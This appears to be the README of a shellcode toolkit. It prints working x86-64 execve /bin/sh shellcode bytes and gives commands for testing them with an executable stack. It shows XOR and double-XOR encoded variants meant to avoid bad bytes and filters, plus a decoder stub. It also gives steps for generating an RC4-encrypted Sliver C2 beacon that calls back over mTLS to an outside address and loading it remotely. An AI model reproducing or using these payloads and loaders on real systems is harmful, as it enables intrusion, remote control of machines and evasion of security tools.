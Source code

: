 # Usage

## The shellcode python generator

It uses the simplest "execve /bin/sh" shellcode by default

```bash
python3 generate_shellcode.py

Shellcode: b'1\xf6VH\xbb/bin//shST_\xf7\xee\xb0;\x0f\x05'
Shellcode HEX: 31f65648bb2f62696e2f2f736853545ff7eeb03b0f05
Raw Shellcode: \x31\xf6\x56\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xf7\xee\xb0\x3b\x0f\x05
Shellcode Length: 22 bytes
```

## The C payload tester

### Compile
`gcc -o test_payload test_payload.c -z execstack`

### Test
```bash
./test_payload               

$ id
uid=1000(xtk)...
```

## XOR key finder

This script helps to avoid specified badbytes by static XOR key encoding. 
It looks for appropriate XOR key to fit specified badbytes

### Usage

```bash
$ python3 xor_key_finder.py

Found valid XOR key: 0x0d
Encoded shellcode:
\x3c\xfb\x5b\x45\xb6\x22\x6f\x64\x63\x22\x22\x7e\x65\x5e\x59\x52\xfa\xe3\xbd\x36\x02\x08
0x3c,0xfb,0x5b,0x45,0xb6,0x22,0x6f,0x64,0x63,0x22,0x22,0x7e,0x65,0x5e,0x59,0x52,0xfa,0xe3,0xbd,0x36,0x02,0x08
3cfb5b45b6226f646322227e655e5952fae3bd360208
...
Found valid XOR key: 0xaa
Encoded shellcode:
\x9b\x5c\xfc\xe2\x11\x85\xc8\xc3\xc4\x85\x85\xd9\xc2\xf9\xfe\xf5\x5d\x44\x1a\x91\xa5\xaf
0x9b,0x5c,0xfc,0xe2,0x11,0x85,0xc8,0xc3,0xc4,0x85,0x85,0xd9,0xc2,0xf9,0xfe,0xf5,0x5d,0x44,0x1a,0x91,0xa5,0xaf
9b5cfce21185c8c3c48585d9c2f9fef55d441a91a5af
...
```

## XOR payload decoder assembly

This assembly decodes XOR endcoded shellcode and uses JMP-CALL-POP technique to dynamically find the address of the payload in a position-independent manner, ensuring the decoder works regardless of where the code is loaded in memory.

### Usage

```bash
nasm -f elf64 -o shellcode.o XOR_decoder.nasm
ld -o shellcode shellcode.o
```

Let's get the RAW payload using:
```bash
objdump -d shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

## Double XOR shellcode encoder

```powershell
PS> ./encoder.ps1
Original shellcode: 0x31,0xf6,0x56,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x2f,0x73,0x68,0x53,0x54,0x5f,0xf7,0xee,0xb0,0x3b,0x0f,0x05
Encoded shellcode: 0x74,0xb5,0x15,0x0f,0xfe,0x6a,0x29,0x2c,0x2d,0x6a,0x6a,0x36,0x2f,0x16,0x13,0x1a,0xb2,0xad,0xf7,0x7e,0x4a,0x40
Size:  0x16
Contains NULL-bytes: False
```

## Remote shellcode loader

Example payload: Sliver implant

```bash
generate beacon --seconds 10 --jitter 3 --os windows --arch amd64 --format shellcode --mtls 10.10.10.10 --name shellcode-mtls --save /data.bin -G --skip-symbols
```

Encryption:
```bash
rc4.py windows.h data.bin
```

Run and enjoy :+)


